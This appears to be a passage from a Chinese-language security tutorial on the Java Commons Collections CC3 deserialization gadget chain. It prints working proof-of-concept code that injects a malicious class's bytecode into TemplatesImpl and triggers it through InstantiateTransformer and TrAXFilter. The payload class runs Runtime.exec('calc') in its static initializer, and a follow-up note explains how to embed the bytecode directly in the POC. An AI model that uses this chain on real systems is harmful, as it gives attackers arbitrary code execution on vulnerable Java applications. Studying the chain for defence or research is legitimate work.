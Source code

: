 ```java
        Field bytecodesField = cc3.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        byte[] code = Files.readAllBytes(Paths.get("D://Test//Test.class"));
        byte[][] codes = {code};
        bytecodesField.set(templates, codes);
        Field tfactoryField = cc3.getDeclaredField("_tfactory");
        tfactoryField.setAccessible(true);
        tfactoryField.set(templates, new TransformerFactoryImpl());
        //templates.newTransformer();
        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates});
        instantiateTransformer.transform(TrAXFilter.class);
    }
}
package com.common.cc;

import java.io.IOException;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class Test extends AbstractTranslet{
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

还可以不使用`Files.readAllBytes(Paths.get("D://Test//Test.class"));`，直接将class文件转换为字节码，写在POC中。POC也就可能需要变动一下

POC改

```java
package com.common.cc;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.functors.InstantiateTransformer;

import javax.xml.transform.Templates;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;

```